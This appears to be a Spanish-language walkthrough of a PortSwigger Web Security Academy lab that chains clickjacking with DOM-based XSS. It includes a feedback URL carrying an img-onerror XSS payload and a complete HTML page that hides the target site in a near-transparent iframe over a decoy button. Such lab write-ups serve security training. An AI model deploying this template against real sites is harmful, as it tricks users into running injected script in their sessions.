## Combinación de clickjacking con un ataque DOM XSS

Hasta ahora, hemos considerado el clickjacking como un ataque autónomo. Históricamente, el clickjacking se ha utilizado para realizar acciones como aumentar los «me gusta» en una página de Facebook. Sin embargo, la verdadera potencia del clickjacking se revela cuando se utiliza como vehículo para otro ataque, como un ataque DOM XSS. La implementación de este ataque combinado es relativamente sencilla, suponiendo que el atacante haya identificado primero el exploit XSS. A continuación, el exploit XSS se combina con la URL de destino del iframe para que el usuario haga clic en el botón o enlace y, en consecuencia, ejecute el ataque DOM XSS.

![20251005182849.png](20251005182849.png)

## Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

En este laboratorio se necesita enviar la información o data al usuario, ademas de enviar nuestro código para explotar un xss.

![20251005183838.png](20251005183838.png)

Para poder insertar el valor en los inputs pondremos loas valores en las urls

```c
https://0a6700c4049e866c8150d96c00dc0025.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=hacker@evil.com&subject=test&message=test
```

Luego de tener solucionado esto, ya podemos crear nuestro código html malicioso.

```c
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 600px;
            opacity: 50%;
            z-index: 2;
        }
        div {
            position:absolute;
            top:515px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe
    src="https://0a6700c4049e866c8150d96c00dc0025.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@evil.com&subject=test&message=test#feedbackResult"></iframe>
</body>
</html>
```

Una vez que tengamos nuestro tag `<div>` donde se tiene el boton, podemos cambiar la `opacity` a `0.00001`

![20251005184215.png](20251005184215.png)

Luego debemos guardar y enviar al usuario victima.

